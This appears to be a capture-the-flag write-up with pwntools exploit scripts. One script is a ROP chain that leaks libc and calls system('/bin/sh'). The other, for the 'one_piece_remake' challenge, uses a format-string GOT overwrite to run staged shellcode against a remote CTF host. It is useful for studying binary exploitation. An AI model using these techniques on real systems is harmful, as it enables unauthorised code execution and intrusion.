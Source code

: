 ```python
blah()
io.recvuntil("right ? : ")
pie_base = int(b"0x"+io.recvn(12),0)-0xa3a
print(f"Pie base: {hex(pie_base)}")
ROP  =  b"A"*0x38+p64(pie_base+pop_rdi)+\
	p64(pie_base+exe.got["puts"])+p64(pie_base+exe.sym.puts)+\
	p64(pie_base+main)+b"A"
io.recv()
io.sendline(ROP)
io.recvline()
libc_puts = u64(io.recvn(6)+b"\x00\x00")
libc_base = libc_puts-puts
print(f"Libc puts: {hex(libc_puts)}")
print(f"Libc base: {hex(libc_base)}")
rshellcode(b"A"*0x27+b"\x7a")
blah()
io.recv()
ROP2 =  b"A"*0x38+p64(pie_base+pop_rdi)+\
	p64(libc_base+binsh)+p64(pie_base+ret)+\
	p64(libc_base+system)+b"A"
io.sendline(ROP2)
io.interactive()
```


# Challenge - one_piece_remake

### Formatstring bug and also We can execute shellcode. I choose to leak stack, and keep small shellcode which read another shellcode to bss. And call full shellcode. To call shellcode exit() got -> stack address.


#### Exploit
```python
#!/usr/bin/python3
from pwn import *
from formatstring import *
exe = context.binary = ELF("./one_piece_remake")
context.update(arch="i386")

####TL;DR
"""
FSB, Leak stack;
exit() got to stack shellcode addr
Leak stack -> run shellcode on stack to recieve other shellcode store on .bss -> call other shellcode -> shell
"""
####Addr
shellcode_start = 0x804a038

####Exploit
#io = process(["./one_piece_remake"])
io = remote("onepiece.fword.wtf",1236)
io.sendlineafter(">>","gomugomunomi")
settings = PayloadSettings(offset=7,arch=x86_32)
p = WritePayload()
io.sendafter(">>","AAAA|%p")
io.recvuntil("|")
stack_leak = int(io.recvn(10),0)
print(f"Stack leak: {hex(stack_leak)}")
p[exe.got["exit"]] = p32(stack_leak)
io.sendlineafter(">>","gomugomunomi")
```